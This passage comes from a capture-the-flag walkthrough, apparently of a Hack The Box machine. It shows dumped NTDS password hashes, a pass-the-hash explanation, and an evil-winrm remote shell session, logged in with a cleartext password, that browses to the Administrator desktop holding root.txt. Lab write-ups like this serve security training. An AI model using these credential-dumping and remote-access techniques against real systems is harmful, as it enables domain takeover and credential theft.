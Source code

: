 ```
SMB         dc.puppy.htb    445    DC               PUPPY.HTB\steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
SMB         dc.puppy.htb    445    DC               DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
SMB         dc.puppy.htb    445    DC               [+] Dumped 10 NTDS hashes
```

<p class="indent-paragraph">
With full domain administrator privileges established, we had direct access to all user directories on the system. From this point, two viable paths could be followed to retrieve the<code>root.txt</code> flag. The first involved navigating to<code>C:\Users\Administrator\Desktop</code> using the<code>steph.cooper_adm</code> account, which had sufficient rights to enumerate and read contents from other user folders. Alternatively, we leveraged the Administrator account's NT hash, previously extracted via<code>crackmapexec</code><span class="codefix">,</span> to authenticate using Pass-the-Hash through<code>evil-winrm</code><span class="codefix">,</span> bypassing the need for the cleartext password entirely.
</p>

```
~$ evil-winrm -i dc.puppy.htb -u steph.cooper_adm -p 'FivethChipOnItsWay2025!'  
                                        
Evil-WinRM shell v3.7
                                                                   
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users> dir

    Directory: C:\Users

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/3/2025   8:26 AM                adam.silver
d-----         3/11/2025   9:14 PM                Administrator
d-----          3/8/2025   8:52 AM                ant.edwards
d-r---         2/19/2025  11:34 AM                Public
d-----          3/8/2025   7:40 AM                steph.cooper
d-----         5/31/2025   7:19 PM                steph.cooper_adm

*Evil-WinRM* PS C:\Users\Administrator> dir

    Directory: C:\Users\Administrator

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         2/19/2025  11:34 AM                3D Objects
d-r---         2/19/2025  11:34 AM                Contacts
d-r---         5/12/2025   7:34 PM                Desktop
d-r---          3/9/2025   8:22 PM                Documents
d-r---         3/23/2025  12:13 AM                Downloads
d-r---         2/19/2025  11:34 AM                Favorites
d-r---         2/19/2025  11:34 AM                Links
d-r---         2/19/2025  11:34 AM                Music
d-r---         2/19/2025  11:34 AM                Pictures
d-r---         2/19/2025  11:34 AM                Saved Games
d-r---         2/19/2025  11:34 AM                Searches
d-r---         2/19/2025  11:34 AM                Videos

*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         5/31/2025   6:33 PM             34 root.txt

```
